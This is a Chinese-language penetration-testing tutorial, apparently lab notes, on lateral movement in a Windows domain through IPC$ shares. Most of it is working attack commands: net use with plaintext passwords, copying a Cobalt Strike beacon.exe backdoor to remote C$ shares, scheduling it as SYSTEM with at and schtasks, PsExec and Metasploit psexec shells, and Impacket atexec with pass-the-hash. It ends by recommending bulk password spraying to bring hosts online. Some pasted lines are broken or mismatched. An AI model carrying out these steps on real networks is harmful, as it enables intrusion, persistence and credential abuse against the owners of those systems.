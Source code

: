 目的：借助已上线的跳板机，利用IPC对内网主机上传后门文件，并创建定时任务运行后门，实现借助跳板机内网主机上线。
利用条件：需要有内网主机账号密码或域用户及密码 或hash。使用 139、445 端口。
```
域用户账号
god.org\administrator
god\administrator

本地账号
.\administrator
```

## **IPC介绍**
* IPC（Internet Process Connection）指进程间通信开放的命名管道，进行进程通信。
* IPC可以通过验证用户名和密码获得相应权限，比如远程管理计算机和查看共享资源
* 通过ipc$，可以与目标机器建立连接，利用这个连接，可以访问目标机器的文件、上传、下载以及运行命令定时任务等
* IPC 是专用管道，可以实现对远程计算机的访问，

## **利用方法**
此时在webserver的192.168.3.31,作为跳板机
```
ipc建立隧道
• 建立ipc$: net use \\192.168.11.12\ipc$ /user:administrator admin@123
• 查看建立的连接：net use
• 访问远程文件：dir \\192.168.11.12\c$

用smb拿到反弹shell    
使用PsTools中的PsExec.exe.
    PsExec.exe \\192.168.11.11 -s cmd.exe
Metesploit中的psexec模块
    选择模块：use exploit/windows/smb/psexec
```
流程：
1. 建立 IPC 链接到目标主机
2. 拷贝要执行的命令脚本到目标主机
3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本
4. 删除 IPC 链接


![image-20240412142237629](http://cdn.33129999.xyz/mk_img/image-20240412142237629.png)
### **使用IPC命令**
此时在webserver的192.168.3.31
CS生成后门用正向后门，或代理转发-转发上线 用反向后门。
CS中命令要在前面加shell
```
1、目标机 < Windows2012 用at定时任务
net use \\192.168.3.21\ipc$  "Admin12345"  /user:god.org\administrator
ministrator # 建立 ipc 连接：
copy beacon.exe \\192.168.3.21\c$ #拷贝后门文件到目标机器

at \\192.168.3.21 15:47 c:\beacon.exe #添加计划任务

2、目标机>=Windows2012 用schtasks定时任务
net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\dbadmin
ministrator # 建立 ipc 连接：
copy beacon.exe \\192.168.3.32\c$ #复制文件到其 C 盘

schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn beacon /sc 
DAILY /tr c:\beacon.exe /F          #创beacon任务对应执行文件
schtasks /run /s 192.168.3.32 /tn beacon /i      #运行 beacon 任务
schtasks /delete /s 192.168.3.22 /tn beacon /f    #删除 beacon 任务
```
运行后门后即可新上线。

^
### **使用CS的IPC**
 LSTAR插件-横向移动-IPC 连接

^
### **使用Impacket的atexec程序脚本 支持hash**
**域横向移动-IPC-套件版-Impacket-atexec**
该工具是一个半交互的工具，适用于webshell下，Socks代理下；
在渗透利用中可以收集用户名、明文密码、密码hash、远程主机等做成字典，批量测试

1、.py版：https://github.com/SecureAuthCorp/impacket
```
python atexec.py god/administrator:Admin12345@192.168.3.21 "ver" 
python atexec.py -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.3.21 "whoami"
```
2、.exe版(内存有点大，5m):  https://gitee.com/RichChigga/impacket-examples-windows
```
cs本地用户明文连接：
shell atexec.exe./administrator:Admin12345@192.168.3.21 "whoami"
cs域内用户明文连接：
shell atexec.exe god/administrator:Admin12345@192.168.3.21 "ver"
cs域内本地用户明文密文连接：
shell atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.3.21 "whoami"

shell atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"
```
将后门beacon.exe上传到跳板机80端口根目录。
把命令改成 下载跳板机:80上的后门命令，再直接运行即可。

^
**域横向移动-IPC-Socks代理后使用atexec**
exe文件要上传到跳板机上，文件过大上传不稳定容易损坏，动静过大。
将跳板机在CS一键Socks代理，在本地配置代理ip 如用profier代理转发，本地运行python脚本或程序 指向内网ip。

可以写一个脚本，把内网ip，已有的用户名，明文密码，密码hash导入，批量反向上线。
实现喷洒。